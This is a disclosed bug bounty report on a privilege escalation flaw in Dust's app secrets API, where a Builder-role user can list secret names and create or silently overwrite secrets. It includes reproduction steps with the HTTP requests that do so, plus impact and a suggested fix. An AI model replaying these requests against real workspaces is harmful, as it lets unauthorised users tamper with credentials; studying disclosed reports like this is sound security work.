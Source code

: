 # Privilege Escalation in Edit and Create Secret Endpoints Leads to Unauthorized Secret Modification

## Report Details
- **Report ID**: 3103755
- **URL**: https://hackerone.com/reports/3103755
- **State**: Closed
- **Severity**: high
- **Submitted**: 2025-04-22T06:51:55.633Z
- **Disclosed**: 2025-04-24T06:43:15.062Z

## Reporter
- **Username**: 0xsom3a
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: dust

## Vulnerability Information
#Summary

A user with the **Builder** role — a role that is **not expected** to manage secrets — can:

- ✅ **List all existing secret names** in the workspace.
- ✅ **Create new secrets**.
- ✅ **Overwrite existing secrets** simply by using the same name.

This behavior **violates permission boundaries** and  leads to **privilege escalation**, **tampering with app configurations**, or **unauthorized access to sensitive data**.

---

# Steps to Reproduce

##Step-1 :  Get All Secret Names in the Workspace

As a **Builder**, send a `GET` request to the secrets endpoint to enumerate all existing secret names.

```http
GET /api/w/[workspace_id]/dust_app_secrets HTTP/2  
Host: dust.tt  
Cookie: [appSession]
```

This returns a list of secrets with their `id`, `name`, `created_at`, etc. — but without showing the secret `value`.

```json
{
  "secrets": [
    { "name": "NAME-1", "value": "•••••••" },
    { "name": "NAME-2", "value": "•••••••" }
  ]
}

```


##**Step-2 :** Create or Overwrite a Secret

Now, send a `POST` request to create a new secret.


```json
POST /api/w/[workspace_id]/dust_app_secrets HTTP/2  
Host: dust.tt  
Content-Type: application/json  
Cookie: [appSession]

{
  "name": "NAME-1",
  "value": "malicious-value"
}
```

#### Behavior:
- If the `name` used in the request **already exists** in the workspace (as returned from step 1), the system will **overwrite the existing secret's value**.
- If the `name` is **new**, a new secret will be created.

-  No error or warning is shown — overwrite happens silently.

---

#POC Video:

██████


---

# Expected Behavior

The **Builder** role should:

-  Not be able to access the list of secret names.
-  Not be able to create or update any secrets.

---

# Suggested Fix

- Enforce strict permission checks on all secret-related endpoints.
- Ensure only users with elevated roles (e.g., Admin, Owner) can list, create, or update secrets.

## Impact

This vulnerability allows users with the **Builder** role to:

-  Discover all secret names in the workspace.
-  Tamper with or overwrite secrets used by other users or apps.
-  Create new secrets and potentially trick other users into using them.
-  Escalate privileges by modifying secrets used in sensitive flows (e.g., API keys, tokens, credentials).

This could lead to:

- Configuration manipulation  
- Account compromise  
- Supply chain attacks on internal tooling  
- Loss of integrity of secret data

## Attachments
No attachments
